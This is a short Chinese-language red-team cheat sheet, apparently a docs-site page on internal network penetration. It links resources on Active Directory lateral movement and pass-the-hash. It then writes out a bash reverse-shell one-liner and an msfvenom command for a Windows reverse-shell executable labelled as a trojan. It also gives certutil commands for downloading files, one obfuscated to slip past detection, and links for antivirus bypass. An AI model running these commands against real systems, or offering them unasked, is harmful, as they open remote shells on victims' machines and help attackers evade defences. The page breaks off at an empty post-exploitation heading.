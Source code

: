 ```yaml
---
sidebar_label: '內網滲透基礎'
---
```


# 紅隊筆記

github：
- https://github.com/geeksniper/active-directory-pentest

# 實用連結
- 内网渗透学习（四）域横向移动——SMB和WMI服务利用：https://www.cnblogs.com/zhianku/p/16535547.html
- https://www.ired.team/offensive-security/lateral-movement
- https://ares-x.com/2020/03/21/%E5%9F%9F%E6%B8%97%E9%80%8F%E5%AD%A6%E4%B9%A0%EF%BC%88%E5%9B%9B%EF%BC%89Dump-Password-Hash/
- https://wwwstar.medium.com/%E5%85%A7%E7%B6%B2%E6%BB%B2%E9%80%8F-pass-the-hash-pth-%E6%94%BB%E6%93%8A%E6%89%8B%E6%B3%95%E5%8F%8A%E9%98%B2%E7%A6%A6-%E5%81%B5%E6%B8%AC%E6%8E%AA%E6%96%BD-e1d15e807a67
- https://tech-blog.cymetrics.io/posts/zet/purple-man-my-superman/
- https://zer1t0.gitlab.io/posts/attacking_ad/

# Reverse shell

## Linux
`bash -c 'bash -i >& /dev/IP/PORT 0>&1'`

## Windows

### 木馬病毒
- Msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > s.exe`

### Download
- Windows：`certutil -urlcache -f URL OUTFILE`
- bypass: `certutil  -url""""cache -split -f `

## AV Bypass
- 白名單：
    - https://lolbas-project.github.io/
    - https://gtfobins.github.io/

# Post-exploitation
---

# Linux
